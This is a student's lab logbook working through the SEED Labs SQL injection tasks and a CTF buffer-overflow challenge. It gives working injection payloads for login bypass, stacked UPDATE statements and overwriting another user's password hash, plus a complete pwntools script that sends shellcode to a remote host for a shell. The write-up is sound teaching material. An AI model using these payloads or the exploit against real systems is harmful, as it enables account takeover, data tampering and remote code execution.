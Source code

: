 # Trabalho realizado na semana #8

<br>

# SEED Labs - SQL Injection Attack Lab

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Add the entry `10.9.0.5        www.seed-server.com` to the `/etc/hosts` file of your VM.

2. Launch the web server, using `dcup`.
   - This command must be executed in the `Labsetup` directory.

<br>

## Task 1 : Get Familiar with SQL Statements

The goal of this task is to understand the structure of the database that is being used by the web server in the next tasks.

1. Get a shell on the MySQL container.

   1. Use `dockps | grep mysql` to get the id of the container (first column).
   2. Run `docksh <id>` with the id obtained in the previous step (only the first few characters may be used).

2. Get a shell inside the database, by executing `mysql -u root -pdees`.
   
<figure>
   <img src="images/logbook8/task1/1.png" alt="Getting a shell on the MySQL container" width="50%" />
   <figcaption><strong>Fig 1. </strong>Getting a shell on the MySQL container</figcaption>
</figure>

3. In the database shell:
   
   1. Run `use sqllab_users;` to change the current database to the database named `sqllab_users`.
   2. Run `show tables;` to see a list of the tables in the current database.
   3. Run `select * from credential where name = 'Alice';` to print all of Alice's profile information.

<figure>
   <img src="images/logbook8/task1/2.png" alt="Print all of Alice's profile information" width="50%" />
   <figcaption><strong>Fig 2. </strong>Print all of Alice's profile information</figcaption>
</figure>

<br>

## Task 2 : SQL Injection Attack on SELECT Statement

The goal of this task is to exploit a SQL Injection vulnerability and use that to log in to an arbitrary user account.

First, we'll inspect the code on the server. By going to `Labsetup/image-www/Code/unsafe_home.php`, we can see the code that is used for the home page, which is vulnerable to SQL Injection.

We found the vulnerable SELECT statement and it's presented below:

<figure>
   <img src="images/logbook8/task2/1.png" alt="The vulnerable SELECT statement" width="50%" />
   <figcaption><strong>Fig 3. </strong>The vulnerable SELECT statement</figcaption>
</figure>

After finding the vulnerable statement, we did the following steps:
   
1. Looking at the PHP code shown previously, we can see that both the username and the password are injectable. As such, we will use the username since it's the first one to appear in the SQL query, which makes the attack easier to perform.

3. Determine the injection payload:

   - We want to log in with the account of the user named `admin`. We can do that by executing the query `SELECT <fields> FROM credential WHERE name = 'admin';`. In the next steps, we will show how to transform the previously shown query into this one.
  
   1. We do not need the `password` field. To remove it, we can simply comment it out (put `; -- ` before it; the space is needed). This will be placed in the field that comes before `password`, which is `name`. As such, no payload is needed for the `password` field.
   
   2. On the `username` field, we want to select the `admin` account. Furthermore, we also want to introduce the changes described in 1., which means that we must close the string as well. Since the string is opened using `'`, we will need to close it using the same character (`'`). As such, the payload for the `name` field will be `admin'; -- `.
   
   3. The resulting SELECT statement will be as follows:
        ```sql
        SELECT <fields> FROM credential WHERE name = 'admin'; -- ' and Password = '';
        ```

### 1. SQL Injection Attack from webpage

1. Connect to the website on `www.seed-server.com`, where we will be presented with a login page.

2. Fill in the login form with the following inputs:

    - Username: `admin'; -- `
    - Password: *anything you want*

<figure>
   <img src="images/logbook8/task2/web/1.png" alt="The payload for the SQL Injection attack" width="50%" />
   <figcaption><strong>Fig 4. </strong>The payload for the SQL Injection attack</figcaption>
</figure>
   
3. Submit the form.
   
<figure>
   <img src="images/logbook8/task2/web/2.png" alt="Logged in as admin, with SQL Injection" width="50%" />
   <figcaption><strong>Fig 5. </strong>Logged in as admin, with SQL Injection</figcaption>
</figure>

### 2. SQL Injection Attack from command line

`curl` is a command-line tool that allows the user to make HTTP requests to any URL. We can, therefore, send our SQL injection payload by using `curl`.

1. Open a terminal.
2. Run `curl "www.seed-server.com/unsafe_home.php?username=admin%27;%20--%20"`.
   
   - Some special characters, such as `'` and spaces need to be encoded when used in a URL. As such, we must use `%20` instead of spaces and `%27` instead of single quotes, which are the corresponding URL-encoded version of those characters.
   
<figure>
   <img src="images/logbook8/task2/curl/1.png" alt="First part of the output of curl" width="50%" />
   <img src="images/logbook8/task2/curl/2.png" alt="Second part of the output of curl" width="50%" />
   <figcaption><strong>Figs 6 and 7. </strong>HTML code of admin page, with SQL Injection and curl</figcaption>
</figure>

<br>

### 3. Append a new SQL statement

To execute multiple statements, we can simply add the new statement after the `;` and before the ` -- ` in the username.

As such, if we want to change Ted's salary to 1234, we will need to execute the statement `UPDATE credential SET salary = 1234 WHERE name = 'Ted';`.

This means that the payload will be as follows:

- Username: `admin'; UPDATE credential SET salary = 1234 WHERE name = 'Ted'; -- `
- Password: *anything you want*

If we submit this payload on the webpage, however, we will get an error.

<figure>
   <img src="images/logbook8/task2/multistatement/1.png" alt="Error after submitting the previous payload" width="50%" />
   <figcaption><strong>Fig 8. </strong>Error after submitting the previous payload</figcaption>
</figure>

This error happens because the server is configured to only execute a single statement per query. To change this, we will need to edit the `unsafe_home.php` file, as shown below.

<figure>
   <img src="images/logbook8/task2/multistatement/2.png" alt="Code after changes have been applied" width="50%" />
   <figcaption><strong>Fig 9. </strong>Code after changes have been applied (lines 75 - 78)</figcaption>
</figure>

With these changes, the server stops using
```php
$conn->query($sql);
```
and instead uses
```php
$conn->multi_query($sql);
```

`multi_query` allows the execution of multiple semicolon-separated statements in the same query, whereas `query` doesn't.

With these changes applied, we need to rebuild the server using `dcup --build`.

After the server is back online, if we submit the payload again, the same user details are shown. This happens because the SELECT statement comes before the UPDATE statement, which means that the changes won't be reflected on the SELECT statement.

To fix this, we can simply reload the page, which will in turn execute the query again and return the updated user details, as shown below.

<figure>
   <img src="images/logbook8/task2/multistatement/3.png" alt="User details after resubmitting the SQL Injection payload" width="50%" />
   <figcaption><strong>Fig 10. </strong>User details after resubmitting the SQL Injection payload</figcaption>
</figure>

As we can see, Ted's salary has been changed to 1234.

<br>

## Task 3 : SQL Injection Attack on UPDATE Statement

The goal of this task is to explore a SQL Injection vulnerability in an UPDATE statement, which will let us modify the data present in the database.

To avoid having previous tasks interfere with this one, we reset the web server by executing the following commands in the `Labsetup` directory:

1. Run `dcdown` to shut down the containers.

2. Run `git restore .` to remove any modifications we have done to the Lab code.

   - This is important because we modified the server's code in the previous task.

3. Run `sudo rm -rf mysql_data`.

   - This will delete all data from the database container. This is important since we have modified data in the previous task and, by executing this command, we will be resetting the database to its original state.
   
4. Run `dcup --build` to start the containers again.

   - Because of the `--build` flag, this command will also check if any containers need to be rebuilt, in particular, the `www` container.

<figure>
   <img src="images/logbook8/task3/1.png" alt="Resetting the task containers" width="50%" />
   <img src="images/logbook8/task3/2.png" alt="Resetting the task containers" width="50%" />
   <figcaption><strong>Figs 11 and 12. </strong>Resetting the task containers</figcaption>
</figure>


After the containers are reset, we can take a look at the task.
In the lab, we are given a piece of vulnerable code, along with a SQL statement:

```php
$hashed_pwd = sha1($input_pwd);

$sql = "UPDATE credential SET
   nickname='$input_nickname',
   email='$input_email',
   address='$input_address',
   Password='$hashed_pwd',
   PhoneNumber='$input_phonenumber'
   WHERE ID=$id;";
   
$conn->query($sql);
```

As we have seen in previous tasks, this code is vulnerable to SQL Injection because it concatenates strings that have not been sanitized with a SQL query that is passed as-is to the database.

### 1. Modify your own salary

1. Log into Alice's account

   - We want to log in as Alice and change her salary through the edit profile form. To log in, we use the username `Alice` and password `seedalice`. Once inside the account, we navigate to the `Edit Profile` page by clicking on the button on the navbar at the top of the page.

<figure>
   <img src="images/logbook8/task3/a/1.png" alt="Logging into Alice's account" width="50%" />
   <figcaption><strong>Fig 13. </strong>Logging into Alice's account</figcaption>
</figure>

<figure>
   <img src="images/logbook8/task3/a/2.png" alt="Alice's homepage where we can see her salary" width="50%" />
   <figcaption><strong>Fig 14. </strong>Alice's homepage where we can see her salary</figcaption>
</figure>

2. Determine the payload injection:

   - The column we want to change is `salary`, therefore we will need something like `salary = 123456` in our payload. 
   
   - We will use the `PhoneNumber` field to inject our payload. Any field could be used, as long as it is included as-is in the resulting SQL query. 
   
   - One possible query would be as follows:
   
      ```sql
      UPDATE credential SET
         nickname='',
         ...
         PhoneNumber='', salary='123456'
         WHERE ID=10000;
      ```

   - In this case, it isn't a problem that `salary` is a string as MySQL will automatically convert it to the appropriate type.
      
   - Therefore one possible payload is `', salary='123456`.

   
3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
   <img src="images/logbook8/task3/a/3.png" alt="Our payload" width="50%" />
   <figcaption><strong>Fig 15. </strong>Our payload</figcaption>
</figure>

As we can see, Alice's salary has been changed to 123456.

<figure>
   <img src="images/logbook8/task3/a/4.png" alt="Alice's homepage with her new salary" width="50%" />
   <figcaption><strong>Fig 16. </strong>Alice's homepage with her new salary</figcaption>
</figure>

### 2. Modify other people’s salary

1. Log into any account. We will log in to Alice's account.

2. Determine the injection payload:

      - This time we want to change someone else's salary, therefore, we will need to change the `WHERE ID=...` part in the resulting query, as this is currently being filled with our ID and, as such, will update our own information. This will need to be overwritten with a condition that only applies to Boby.
      
      - The new condition could be, for instance, `WHERE Name='Bobby'`. However, because we don't want to trigger a syntax error (caused by the original `WHERE ID=...` clause still being present), we will need to comment out everything that comes after that, using `; -- `.

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...
            PhoneNumber='', salary='1' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```

      - In conclusion, our final payload will be `', salary='1' WHERE Name='Boby'; -- `.


3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
   <img src="images/logbook8/task3/b/1.png" alt="Our payload" width="50%" />
   <figcaption><strong>Fig 17. </strong>Our payload</figcaption>
</figure>

4. Log out of the website.

5. Log in with Boby's credentials.

   - Username: `Boby`
   - Password: `seedboby`

<figure>
   <img src="images/logbook8/task3/b/2.png" alt="Logging into Bobby's account" width="50%" />
   <figcaption><strong>Fig 18. </strong>Logging into Bobby's account</figcaption>
</figure>

As we can see, Bobby's salary has been changed to 1.

<figure>
   <img src="images/logbook8/task3/b/3.png" alt="Bobby's new salary" width="50%" />
   <figcaption><strong>Fig 19. </strong>Bobby's new salary</figcaption>
</figure>

### 3. Modify other people’s password

1. Log into an account. We will log in to Alice's account.

2. Determine the payload:

      - This task is generally the same as the previous one, the only difference is that the database stores a hash instead of a password, therefore we must hash our new password before inserting it.

      - There are two ways of accomplishing that goal:

         1. Since the new password comes before the phone number in the query, we can simply place the new password in plain text in the password field of the form (it will be hashed by the server) and the rest of the injected SQL in the phone number field of the form. This is useful if we don't what hashing algorithm is being used by the server, but we need to know (or, at least, guess) how the query is organized.

         2. We can also use the same payload as in task 3.2 and replace `salary='1'` with `Password='.<sha1 of password>'`. The downside here is that we need to know the hashing algorithm. Since we know that, we will use this approach.

      - We want to change Boby's password to `you_wont_access_your_account_again_bobby`. Let's hash the password with SHA1: `2409cc93fb815f9da0947627730f3d006aefb4f2`. 

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...,
            Password='',
            PhoneNumber='', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```
      
      - Therefore, our payload will be `', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- `.

3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
   <img src="images/logbook8/task3/c/1.png" alt="Our payload" width="50%" />
   <figcaption><strong>Fig 20. </strong>Our payload</figcaption>
</figure>

4. Log out of the website.

5. Log in with Boby's new credentials.

   - Username: `Boby`
   - Password: `you_wont_access_your_account_again_bobby`

<figure>
   <img src="images/logbook8/task3/c/2.png" alt="Logging into Bobby's account with the new credentials" width="50%" />
   <figcaption><strong>Fig 21. </strong>Logging into Bobby's account with the new credentials</figcaption>
</figure>

As we can see, Bobby's password has been changed.

<figure>
   <img src="images/logbook8/task3/c/3.png" alt="Successful login into Bobby's account" width="50%" />
   <figcaption><strong>Fig 22. </strong>Successful login into Bobby's account</figcaption>
</figure>

<br>
<br>
<br>

# CTF

## CTF - Challenge 1

<br>

## CTF - Challenge 2

In this challenge, we are given a `program`, along with its source code.

### Step 1 - Checksec

By running `checksec` on the program, we can discover many things:

```bash
❯ checksec program
   Arch:     i386-32-little
   RELRO:    No RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      PIE enabled
   RWX:      Has RWX segments   
```

- The executable's architecture is 32 bits and little-endian

- There are segments in memory with Read, Write and Execute Permissions

- Position Independent Executable (PIE) is enabled

- NX (No eXecute) is disabled

- There's no canary

<br>

Analyzing the program with `readelf -l program` gives us the following output:

```bash
Elf file type is DYN (Position-Independent Executable file)
Entry point 0x10f0
There are 11 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  # ...
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
  # ...
```

As we can see, the stack has read (R), write (W) and execute (E) permissions. Knowing this and knowing that there is no stack canary, a return-oriented programming attack probably will be our most successful bet to get the flag. All that is left is for us to get a buffer overflow.


### Step 2 - Source code analysis

By analyzing the program's source code, as expected, we can immediately spot a buffer overflow vulnerability on line 12.

```c
int main() {
   char buffer[100]; // line 5
   
   // ...

   gets(buffer); // line 12

   return 0;
}
```

Since the program is using `gets`, it will continue reading the program's input into the `buffer` until it finds a null-byte terminator, even if it overflows the buffer's allocated space.

This means that we can overwrite anything we want on the stack, as long as we know its relative position to the `buffer` in the stack.

Furthermore, in the previous step, we determined that the stack has RWX permissions, which means that we can write a shellcode to the stack and then return to the address of the shellcode (the address of `buffer` is printed to the stdout on every execution), giving us a shell in the machine.

### Step 3 - Return address offset

The only thing that is left for us to write the exploit is to know the location of `main`'s return address relative to the `buffer` (offset). For that purpose, we will use `gdb`.

![Debugging program](/images/logbook8/ctf2/1.png)
![The addresses of ebp and buffer](/images/logbook8/ctf2/2.png)

We can conclude that, in this execution, the value of `$ebp` is `0xffffc978` and the address of buffer is `0xffffc910`.

```
0xffffc978 - 0xffffc910 = 0x68 = 104
```

This means that we will need to write 104 bytes to overwrite the position pointed to by `ebp`, however, the return address, which is what we want to overwrite, is 1 position above the frame pointer, therefore:

```
OFFSET = 104 + 4 (32-bit frame pointer) = 108
```

### Step 3 - Exploitation

Our exploit is as follows:

```py
#!/bin/env python3

from pwn import *

OFFSET = 108
RET_ADDR_SIZE = 4

p = remote("ctf-fsi.fe.up.pt", 4001)

p.recvuntil([b" is "])

address = p.recvline(keepends=False)[:-1]
address = int(address, 16)

info("Address: " + hex(address))

# PAYLOAD

payload = bytearray(0x90 for i in range(OFFSET + RET_ADDR_SIZE))
shellcode = asm(shellcraft.i386.linux.sh())

info("Shellcode size: " + str(len(shellcode)))

payload[:len(shellcode)] = shellcode
payload[OFFSET:OFFSET + RET_ADDR_SIZE] = p32(address)

# END OF PAYLOAD

p.sendlineafter(b":", payload)
p.interactive()
```

1. Create a new process
2. Read `buffer`'s address
3. Create the payload, which consists of a shellcode at the start and the address of `buffer` at the end
4. Send the payload to the process
5. You have a shell!

![Getting the flag](/images/logbook8/ctf2/3.png)
